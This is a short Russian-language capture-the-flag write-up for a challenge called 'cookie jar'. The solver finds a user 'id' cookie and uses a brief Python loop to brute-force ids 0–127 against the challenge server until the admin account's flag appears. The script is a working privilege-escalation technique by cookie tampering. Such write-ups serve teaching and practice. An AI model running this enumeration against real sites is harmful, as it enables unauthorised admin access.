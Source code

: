 # Банка для печенья: Write-up #
Попадая на сайт, видим весьма информативное сообщение:

    Привет! Я написал небольшое приложение рассчитанное на 128 пользователей. Твоя цель - стать админом.

    Твой айди: 120

Так как мы не зря учились в школе, знаем азы английского языка и понимаем, что по английски печенье - cookie, лезем в `Inspect > Storage > Cookies` или просто в `Cookie-editor`.
И там видим как раз-таки параметр `id`. Судя по всему, так как пользователей 128, то id админа либо в этом диапазоне, либо имеет какой-либо специфичный id, проверка последнего ничего не дала - просто нет вариантов.

Поэтому работаем с первым вариантом: перебираем все id:

```python3
import requests

cookies = dict()
for i in range(128):
	cookies["id"] = str(i)
	resp = requests.get("http://62.173.140.174:16003/", cookies=cookies)
	print(resp.text)
	# Выход добавил позже, чтобы не было лишнего.
	if "CODEBY" in resp.text:
		break
```
И на каком-то id видим приятное сообщение:

    [ ROOT ] Поздравляю! Теперь ты админ (˵ • ᴗ - ˵ ) ✧

    Держи флаг: CODEBY{************}
